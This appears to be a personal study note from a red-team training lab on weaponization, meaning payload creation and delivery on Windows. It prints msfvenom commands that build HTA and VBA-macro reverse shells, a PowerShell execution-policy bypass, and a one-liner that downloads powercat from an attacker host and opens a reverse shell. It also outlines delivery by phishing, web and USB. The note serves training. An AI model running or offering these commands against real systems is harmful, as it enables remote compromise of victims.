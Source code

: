 ## Introduction

##### What is Weaponization

In this stage the attacker develops and uses deliverable payloads for the exploit.

`.exe` files are usually blocked red teamers rely upon building custom payloads, sent with phishing campaigns for example.

## Windows Scripting Host - WSH

##### Windows Scripting Host (WSH)

WSH is a built-in Windows administration tools that runs batch files to manage and automate tasks within the OS.

It is a Windows native engine, `cscript.exe` (for command-line scripts) and `wscript.exe` (for UI scripts) that are responsible for executing various Microsoft Visual Basic Scripts (VBScript) including `vbs` and `vbe`, which runs with the permission of a regular user.

## An HTML Application - HTA

##### An HTML Application (HTA)

Allows to create a downloadable file that takes information about how it is displayed and rendered, HTAs are dynamic HTML pages containing JScript and VBScript. The LOLBINS (Living-of-the-land Binaries) tool `mshta` is used to execute HTA files, or they can be executed by themselves from Internet Explorer.

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip address> LPORT=<port> -f hta-psh -o <file name>` - Create HTA reverse shell payload.

`exploit/windows/misc/hta_server` Metasploit module for delivering HTA payload.

## Visual Basic for Application - VBA

##### Visual Basic for Application (VBA)

VBA is a programming language that allows automating almost every keyboard and mouse interaction between a user and Microsoft Office applications.

Macros are Microsoft Office applications written in VBA, used to automate tasks.

view → macros - Open the Visual Basic editor from an Office app.

`Word 97-2003 Template` - Document type that supports macros.

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.50.159.15 LPORT=443 -f vba` - Generate a macro reverse shell.

## PowerShell - PSH

##### PowerShell (PSH)

Object-oriented programming language executed from the Dynamic Language Runtime in `.NET` with some exceptions for legacy uses.

`Get-ExecutionPolicy` - Determine the current Powershell execution policy.
`Set-ExecutionPolicy -Scope CurrentUser RemoteSigned` - Change the execution policy.
`powershell -ex bypass -File thm.ps1` - Bypass the execution policy to execute a file.

`powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKBOX_IP:8080/powercat.ps1');powercat -c ATTACKBOX_IP -p 1337 -e cmd"` - Download and execute a payload using Powershell.

## Delivery Techniques

##### Email Delivery

The goal is to trick the victim to visit the malicious website or click and run the malicious file.

Depending on the engagement requirement phishing infrastructure requires setting up various options within the email server, including DomainKeys Identified Email (DKIM), Sender Policy Framework (SPF) and DNS Pointer (PTR) record.

The red team can use third party email services with good reputations.

Other interesting method is to use a compromised email from within the company.

##### Web Delivery

Another method is hosting malicious payload on a web server that follows the security guidelines, it can involve social engineering as well, an attacker can also use zero-day exploits on applications such as Java or web browsers to use them in web delivery or phishing techniques.

##### USB Delivery

This method requires the victim to plug in the USB, can be useful in conferences and such when the attacker can distribute the USBs. Some organizations disable USB usage.